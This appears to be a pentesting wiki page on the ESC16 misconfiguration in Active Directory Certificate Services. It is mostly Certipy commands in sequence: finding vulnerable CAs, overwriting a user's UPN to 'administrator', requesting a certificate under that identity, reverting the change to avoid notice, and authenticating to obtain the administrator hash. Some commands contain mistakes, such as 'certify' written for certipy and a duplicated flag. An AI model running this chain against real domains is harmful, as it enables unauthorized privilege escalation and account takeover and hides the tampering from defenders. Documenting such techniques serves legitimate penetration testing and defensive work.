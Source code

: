 # ESC16

_"The ESC16 vulnerability in Active Directory Certificate Services (AD CS) arises when the `szOID_NTDS_CA_SECURITY_EXT` extension is globally disabled, weakening the certificate-to-account binding and allowing legacy mappings like UPN or SAN to be used for authentication. This misconfiguration, combined with the absence of strict enforcement (`StrongCertificateBindingEnforcement` not set to 2), enables attackers with limited privileges to impersonate higher-privileged users by modifying their own `userPrincipalName` and requesting a forged certificate. Through tools like Certipy, attackers can identify and exploit this flaw to gain unauthorized access. To prevent such attacks, organizations must ensure strong certificate binding enforcement is enabled, the critical OID extension is not disabled, and certificate templates and user permissions are strictly audited and configured."_

{% embed url="https://medium.com/@muneebnawaz3849/ad-cs-esc16-misconfiguration-and-exploitation-9264e022a8c6" %}

#### Methodology

* Run Certipy (version 5.X.X) and check the output
* If the Certificate is vulnerable to ESC16, exploit it
* Leverage ESC16 to escalate privilege



## ESC16 detection&#x20;

Using `certify v5.0.2` from kali linux machine to detect if the certicate is vulnerables.

<pre class="language-bash" data-title="With Pass" data-overflow="wrap"><code class="lang-bash"><strong>certipy find -u 'user@domain.com' -p 'PASS' -dc-ip IP -vulnerable -enabled
</strong></code></pre>

{% code title="With Hash" overflow="wrap" %}
```bash
certipy find -u 'user@domain.com' -hashes 'HASH' -dc-ip IP -vulnerable -enabled
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Exploitation of ESC16 Vulnerability Using Certipy**

1. **Update UserPrincipalName** (UPN) of a user to impersonate another user (like `administrator`).

{% code overflow="wrap" %}
```bash
certipy account -u 'USER' -p 'PASS' -target 'DC.domain.com' -dc-ip IP -upn 'administrator' -user 'USER_TO_MOD' update
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

This allows the user to request certificates for the `administrator` identity.

2. **Verify** the Attribute Update

```bash
certipy account -u 'USER' -p 'PASS' -dc-ip IP -u 'MOD_USER' read
```

<figure><img src="../../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Now the UPN is set to `administrator` .

3. **Request Certificate** as `administrator`&#x20;

{% code overflow="wrap" %}
```bash
certipy req -dc-ip IP -u 'administrator' -p 'USER_PASS' -target 'DC.domain.com' -ca 'CA_NAME' -template 'User'
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

4. **Revert the UPN change** to prevent suspiciuos or disruption.

{% code overflow="wrap" %}
```bash
certify account -u 'USER' -p 'PASS' -target 'DC.domain.com' -dc-ip IP -upn 'USER_TO_MOD' -user 'USER_TO_MOD' update
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>



### Get access with administrator certificate

Once we obtained the `administrator.pfx` certificate, we can use it to get his hash.

```bash
certipy auth -pfx administrator.pfx -domain 'domain.com' -dc-ip IP 
```

<figure><img src="../../../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

